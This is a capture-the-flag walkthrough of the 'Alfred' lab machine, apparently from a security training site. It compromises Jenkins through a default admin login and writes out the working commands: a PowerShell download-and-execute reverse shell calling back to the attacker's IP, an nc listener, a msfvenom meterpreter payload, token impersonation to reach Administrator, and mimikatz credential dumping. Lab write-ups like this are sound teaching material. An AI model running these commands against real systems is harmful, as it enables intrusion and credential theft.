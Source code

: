 Exploited Jenkins gained an initial shell, then escalated privileges by exploiting Windows authentication tokens. Deployment of meterpreter with web_delivery. 

----------

Legal Usage: The information provided by executeatwill is to be used for educational purposes only. The website creator and/or editor is in no way responsible for any misuse of the information provided. All the information on this website is meant to help the reader develop penetration testing and vulnerability aptitude to prevent attacks discussed. In no way should you use the information to cause any kind of damage directly or indirectly. Information provided by this website is to be regarded from an “ethical hacker” standpoint. Only preform testing on systems you OWN and/or have expressed written permission. Use information at your own risk.
By continued reading, you acknowledge the aforementioned user risks/responsibilities.

----------

![](https://paper-attachments.dropbox.com/s_61BA8F69E29EA135ED40C9EA88A2EC4EA2D184DC38B2C055BCF95CCA7FDAF01A_1585775160807_image.png)



# Recon
Target: 10.10.230.14

**Nmap scan:**

    nmap -sV -sC -oA nmap/alfred 10.10.230.14 -Pn

![](https://paper-attachments.dropbox.com/s_61BA8F69E29EA135ED40C9EA88A2EC4EA2D184DC38B2C055BCF95CCA7FDAF01A_1585766466669_image.png)


**Nmap all ports:**

    nmap -p- nmap/alfred_allports 10.10.230.14 -Pn

![](https://paper-attachments.dropbox.com/s_61BA8F69E29EA135ED40C9EA88A2EC4EA2D184DC38B2C055BCF95CCA7FDAF01A_1585767313953_image.png)


Open Port Review:

Port 80 - Microsft IIS httpd 7.5 - webserver

![](https://paper-attachments.dropbox.com/s_61BA8F69E29EA135ED40C9EA88A2EC4EA2D184DC38B2C055BCF95CCA7FDAF01A_1585766694659_image.png)


image bruce.jpg and email exposed `alfred@wayneeterprises.com`.

Port 3389 - Remote RDP
Port 8080 - Jetty 9.4.z-SNAPSHOT - webserver

![](https://paper-attachments.dropbox.com/s_61BA8F69E29EA135ED40C9EA88A2EC4EA2D184DC38B2C055BCF95CCA7FDAF01A_1585766826381_image.png)


login attempt with `admin:admin` enable access to backend.

![](https://paper-attachments.dropbox.com/s_61BA8F69E29EA135ED40C9EA88A2EC4EA2D184DC38B2C055BCF95CCA7FDAF01A_1585766903480_image.png)


version number exposed as `Jenkins ver. 2.190.1`

![](https://paper-attachments.dropbox.com/s_61BA8F69E29EA135ED40C9EA88A2EC4EA2D184DC38B2C055BCF95CCA7FDAF01A_1585767468918_image.png)


Jenkins searchsploit:

![](https://paper-attachments.dropbox.com/s_61BA8F69E29EA135ED40C9EA88A2EC4EA2D184DC38B2C055BCF95CCA7FDAF01A_1585767530004_image.png)


## accessing console

discovered console:

    http://10.10.230.14:8080/job/project/1/console

![](https://paper-attachments.dropbox.com/s_61BA8F69E29EA135ED40C9EA88A2EC4EA2D184DC38B2C055BCF95CCA7FDAF01A_1585767075782_image.png)


Under “Build” section of the `/job/project/configure` the “whoami” offers an ability execute commands on the target system.


# Reverse Shell

using nishang `*PowerShellTcp.ps1*` to create a reverse shell:
Github: https://github.com/samratashok/nishang.git

creating webserver on local machine via python3

    python3 -m http.server

![](https://paper-attachments.dropbox.com/s_61BA8F69E29EA135ED40C9EA88A2EC4EA2D184DC38B2C055BCF95CCA7FDAF01A_1585768324089_image.png)


adding powershell command to console “Build” section:

    powershell iex (New-Object Net.WebClient).DownloadString('http://10.8.20.45:8000/PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.8.20.45 -Port 9000

![](https://paper-attachments.dropbox.com/s_61BA8F69E29EA135ED40C9EA88A2EC4EA2D184DC38B2C055BCF95CCA7FDAF01A_1585768533565_image.png)


Listener setup:
rlwrap allows for (up, down, left, right keyboard commands)

    rlwrap nc -lvnp 9000

![](https://paper-attachments.dropbox.com/s_61BA8F69E29EA135ED40C9EA88A2EC4EA2D184DC38B2C055BCF95CCA7FDAF01A_1585768713613_image.png)

**Connection received:**

![](https://paper-attachments.dropbox.com/s_61BA8F69E29EA135ED40C9EA88A2EC4EA2D184DC38B2C055BCF95CCA7FDAF01A_1585768868433_image.png)


**Systeminfo**

![](https://paper-attachments.dropbox.com/s_61BA8F69E29EA135ED40C9EA88A2EC4EA2D184DC38B2C055BCF95CCA7FDAF01A_1585771800880_image.png)


**User.txt** 
located: `C:\Users\bruce\desktop\user.txt`

![](https://paper-attachments.dropbox.com/s_61BA8F69E29EA135ED40C9EA88A2EC4EA2D184DC38B2C055BCF95CCA7FDAF01A_1585776055961_image.png)


# Upgrading shell to meterpreter shell

create payload with msfvenom

    msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai EXITFUNC=thread LHOST=10.8.20.45 LPORT=9001 -f exe -o revshell9001exit.exe

![](https://paper-attachments.dropbox.com/s_61BA8F69E29EA135ED40C9EA88A2EC4EA2D184DC38B2C055BCF95CCA7FDAF01A_1585769169449_image.png)

**Setup multi/handler**

![](https://paper-attachments.dropbox.com/s_61BA8F69E29EA135ED40C9EA88A2EC4EA2D184DC38B2C055BCF95CCA7FDAF01A_1585769423692_image.png)

**Download revshell to target**

    powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.8.20.45:8000/revshell9001.exe','revshell9001.exe')"

Start process with:

    Start-Process "revshell9001.exe"

(in my case meterpreter would hang and never fully connect to handler. Moved to creating meterpreter session with web_delivery)

**Creating Meterpreter shell via web_delivery**

![](https://paper-attachments.dropbox.com/s_61BA8F69E29EA135ED40C9EA88A2EC4EA2D184DC38B2C055BCF95CCA7FDAF01A_1585774103165_image.png)


took the generated code and executed on target:

![](https://paper-attachments.dropbox.com/s_61BA8F69E29EA135ED40C9EA88A2EC4EA2D184DC38B2C055BCF95CCA7FDAF01A_1585774177738_image.png)

![](https://paper-attachments.dropbox.com/s_61BA8F69E29EA135ED40C9EA88A2EC4EA2D184DC38B2C055BCF95CCA7FDAF01A_1585774143422_image.png)


**Migrate to higher process**

    ps
    migrate

![](https://paper-attachments.dropbox.com/s_61BA8F69E29EA135ED40C9EA88A2EC4EA2D184DC38B2C055BCF95CCA7FDAF01A_1585774491520_image.png)


elevated:

![](https://paper-attachments.dropbox.com/s_61BA8F69E29EA135ED40C9EA88A2EC4EA2D184DC38B2C055BCF95CCA7FDAF01A_1585774529650_image.png)


# Windows User Impersonation

investigate privleages of bruce:

    whoami /priv

![](https://paper-attachments.dropbox.com/s_61BA8F69E29EA135ED40C9EA88A2EC4EA2D184DC38B2C055BCF95CCA7FDAF01A_1585771129738_image.png)


from this we are able exploit as they are enabled:

    SeDebugPrivilege
    SeImpersonatePrivilege 

**Load Incognito + List tokens within meterpreter**

    load incognito
    list_tokens -g

![](https://paper-attachments.dropbox.com/s_61BA8F69E29EA135ED40C9EA88A2EC4EA2D184DC38B2C055BCF95CCA7FDAF01A_1585774715943_image.png)


 **Impersonate token**

    impersonate_token "BUILTIN\Administrators"

![](https://paper-attachments.dropbox.com/s_61BA8F69E29EA135ED40C9EA88A2EC4EA2D184DC38B2C055BCF95CCA7FDAF01A_1585773873560_image.png)


## root.txt

located at `C:\Windows\System32\config`

![](https://paper-attachments.dropbox.com/s_61BA8F69E29EA135ED40C9EA88A2EC4EA2D184DC38B2C055BCF95CCA7FDAF01A_1585775871288_image.png)


# Post Exploitation
## mimikatz extract
    load kiwi
    get_creds

![](https://paper-attachments.dropbox.com/s_61BA8F69E29EA135ED40C9EA88A2EC4EA2D184DC38B2C055BCF95CCA7FDAF01A_1585775978547_image.png)


